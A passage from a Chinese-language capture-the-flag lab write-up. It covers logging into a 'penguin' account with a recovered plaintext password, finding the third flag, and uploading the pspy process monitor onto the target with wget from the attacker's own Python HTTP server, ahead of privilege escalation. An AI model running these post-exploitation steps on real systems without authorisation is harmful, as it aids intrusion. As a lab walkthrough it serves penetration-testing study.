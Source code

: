 查看解压文件，得到penguin账户密码

> scf4W7q4B4caTMRhSFYmktMsn87F35UkmKttM5Bz

![29](https://pic.imgdb.cn/item/6649a61ad9c307b7e9ff9572.png)

登录penguin账户成功

![30](https://pic.imgdb.cn/item/6649a667d9c307b7e9fffc62.png)

在penguin账户家目录下的 `SomeoneWhoHidesBehindAMask` 文件夹中找到第三个flag

![31](https://pic.imgdb.cn/item/6649a729d9c307b7e900dcd5.png)

查看 `.trash_old` 文件，这个文件可能是一个自动执行脚本，并且其在root组中，我们可以监控包含该文件的进程

![32](https://pic.imgdb.cn/item/6649a83ed9c307b7e901e2bc.png)

上传pspy工具

pspy是一个命令行工具，它可以在没有Root权限的情况下，监控Linux进程。

在本地启动http服务，在目标服务器上从本地下载pspy

`wget http://192.168.1.128:8888/pspy64`

::: note 



有些服务器不允许上传文件，允许下载，我们可以在线下载或者从自己搭建的服务器下载文件。

搭建本地服务器：在文件目录启动终端，使用python模块启动一个简单的HTTP服务器

`python -m http.server 8888`

`-m`	（module）启动模块



:::

![33](https://pic.imgdb.cn/item/6649afd3d9c307b7e909f614.png)

更改权限启动pspy

`chmod 777 pspy64` 

r=4, w=2, x=1

`chmod +x pspy64`

+x  会将user, group, other的权限都+x

![34](https://pic.imgdb.cn/item/6649b224d9c307b7e90e8879.png)

![35](https://pic.imgdb.cn/item/6649b2c1d9c307b7e90f6e40.png)

## 借权提升
